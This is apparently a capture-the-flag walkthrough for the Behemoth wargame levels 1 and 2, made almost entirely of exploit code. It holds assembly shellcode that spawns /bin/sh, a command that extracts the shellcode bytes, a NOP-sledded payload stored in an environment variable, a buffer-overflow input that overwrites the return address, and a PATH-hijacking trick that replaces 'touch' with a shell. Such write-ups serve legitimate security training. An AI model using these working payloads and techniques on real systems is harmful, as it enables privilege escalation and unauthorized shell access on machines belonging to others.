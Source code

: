 ## Behemoth 1

```asm
; nasm -gstabs -f elf32 -o bin_sh.o bin_sh.asm && ld bin_sh.o -m elf_i386 -s -o bin_sh && ./bin_sh
; objdump -M Intel -d ./bin_sh |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

section .text
    global _start
_start:
    xor eax, eax ; make eax = 0
    push eax ; push 0 to stack
    push "//sh" ; tanda garing di belakang berfungsi agar tidak ada null byte saat membuat payload
    push "/bin" ; push /bin/sh to stack
    mov ebx, esp ; mov /bin/sh to ebx
    mov ecx, eax ; make ecx 0
    mov edx, eax ; make edx 0
    mov al, 0xb ; execve
    int 0x80 ; syscall

    push ecx ; push 0 on the stack
    mov al, 1 ; exit
    int 0x80
```

```sh
x/20s *((char **)environ) # in gdb to print env address and value
```

```sh
export EXPLOIT=$(python -c "print '\x90'*10+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x51\xb0\x01\xcd\x80'+'\x90'*10")
```

```sh
run < <(python -c 'print "\x90"*71+"\xf4\xde\xff\xff"')
```

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	char* ptr = getenv("EXPLOIT");
	printf("%p\n",ptr);
}
```

### Reference
- http://shell-storm.org/shellcode/files/shellcode-811.php
- https://stackoverflow.com/questions/55941924/why-was-nop-assigned-to-0x90-in-x86-assembly



## Behemoth 2

```
...snip...
   0x080485f3 <+136>:   push   eax
   0x080485f4 <+137>:   call   0x8048410 <system@plt>
...snip...
```

```
eax = 0xffffd684:     "touch 29161" ; eax in function main+136
```

```sh
mkdir /tmp/mal
echo "/bin/sh" > /tmp/mal/touch
chmod +x /tmp/mal/touch
export PATH=/tmp/mal:$PATH
/behemoth/behemoth2
```